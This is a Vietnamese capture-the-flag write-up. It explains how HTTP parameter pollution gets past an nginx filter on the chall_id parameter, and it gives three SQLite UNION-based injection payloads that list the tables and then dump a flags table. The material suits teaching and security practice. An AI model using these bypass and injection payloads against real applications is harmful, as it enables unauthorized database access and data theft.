



## Baby web Revenge
Bài này về source giống hoàn toàn với bài Baby web nhưng chúng ta không thể tải được file db từ server nên trong bài này chúng ta phải tìm cách bypass được các
filter:
```
if ($args ~ [%]){
        	return 500;
        }

        if ( $arg_chall_id ~ [A-Za-z_.%]){
		return 500;
	}
```
Ban đầu mình thật sự không biết làm cách nào để có thể thực hiện query mà không sử dụng alphabetic characters.

Mình thử sử dụng 2 lần `chall_id` và thật bất ngờ nó hoạt động: 

`?chall_id=2&chall_id=1+UNION+select+1,null,null,null,null,null`



Sau đó thì mình mới biết đây là param pollution

file config chỉ thực hiện kiểm tra trên param thứ nhất. Nhưng sau đó param thứ hai được đưa vào sẽ thực hiện ghi đè lên param lên param trước đó.

Đến đây thì chúng ta có thể solve bài này bằng cách dễ dàng:

Lấy tên table: `?chall_id=2&chall_id=1+UNION+select+null,name,null,null,null,null+from+sqlite_master`



Có một table tên `therealflags`, rất có thể `flag` đang nằm trong table này.

Lấy flag: `?chall_id=2&chall_id=1+UNION+select+null,*,null,null,null+from+therealflags`



